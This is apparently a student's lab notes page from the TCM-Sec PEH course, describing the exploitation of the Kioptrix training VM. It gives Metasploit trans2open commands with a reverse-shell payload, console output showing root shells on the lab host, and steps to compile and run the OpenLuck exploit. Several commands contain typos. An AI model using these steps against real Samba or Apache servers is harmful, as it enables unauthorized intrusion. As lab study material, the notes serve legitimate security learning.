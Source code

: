 ```yaml
---
layout: default
title: Exploit
parent: Kioptrix
grand_parent: TCM-Sec - PEH
permalink: /tcm-sec_PEH/kioptrix/exploit
nav_order: 5
---
```



# Exploit <!-- markdownlint-disable-line MD025 MD022 -->
{: .no_toc}

## Table of contents <!-- markdownlint-disable-line MD022 -->
{: .no_toc .text-delta}

- TOC
{:toc }

## metasploit

- `search trans2opnen`
- `use xploit/linux/samba/trans2open`
- `set rhosts`
- `exploit`:

```console
[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] 10.0.2.4:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffbfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffafc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 1 closed.  Reason: Died
[*] 10.0.2.4:139 - Trying return address 0xbffff9fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 2 closed.  Reason: Died
[-] Meterpreter session 2 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff8fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 3 closed.  Reason: Died
[-] Meterpreter session 3 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff7fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 4 closed.  Reason: Died
[-] Meterpreter session 4 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff6fc...
^C[-] 10.0.2.4:139 - Exploit failed [user-interrupt]: Interrupt 
[-] run: Interrupted
```

- `set payload linux/x86/shell_reverse_tcp`
- `run`:

```console
[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] 10.0.2.4:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffbfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffafc...
[*] 10.0.2.4:139 - Trying return address 0xbffff9fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff8fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff7fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff6fc...
[*] Command shell session 5 opened (10.0.2.15:4444 -> 10.0.2.4:32868) at 2022-12-14 00:21:32 +0100

[*] Command shell session 6 opened (10.0.2.15:4444 -> 10.0.2.4:32869) at 2022-12-14 00:21:33 +0100
[*] Command shell session 7 opened (10.0.2.15:4444 -> 10.0.2.4:32870) at 2022-12-14 00:21:35 +0100
[*] Command shell session 8 opened (10.0.2.15:4444 -> 10.0.2.4:32871) at 2022-12-14 00:21:36 +0100

id
uid=0(root) gid=0(root) groups=99(nobody)
```

> WE GOT ROOT

## Manually (kind of)

- download exploit from github ([OpenLuck](https://github.com/heltonWernik/OpenLuck))
- install libssl-dev
- compile 'opelLuck.c'
- execute

![Alt text](../../assets/TCM-Sec/Kioptrix/openLuck.png)

> WE GOT apache ?!?!?

---

